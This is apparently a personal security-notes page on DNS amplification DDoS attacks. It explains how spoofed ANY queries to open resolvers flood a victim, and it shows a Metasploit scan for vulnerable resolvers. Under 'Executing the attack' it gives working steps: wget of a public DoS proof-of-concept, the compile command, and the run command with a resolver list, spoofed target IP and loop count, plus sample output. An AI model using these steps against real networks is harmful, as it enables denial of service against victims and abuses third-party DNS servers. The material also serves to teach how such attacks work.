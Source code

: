 # What is DNS Traffic Amplification?

A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an *amplification* attack because it uses DNS responses to upscale the size of the data sent to the victim.

# How does it work?

An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

## Conducting a DNS Traffic Amplification Attack
### Testing a DNS server for attack surface

We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit]() using the module `auxiliary/scanner/dns/dns_amp`.

![[res/msf6-dns-amp.png]]

In the `RHOSTS` you need to put the IP of the name server you want to test. *This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.*

Run the scanner:

![[res/msf6-dns-amp-sc-run.png]]

### Executing the attack

A simple tool is available only as a proof of concept [[https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c|here]]. You will need to download and then compile it:

```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```
```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:

```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with `wireshark`:

![[res/dnsdrdos-wireshark.png]]
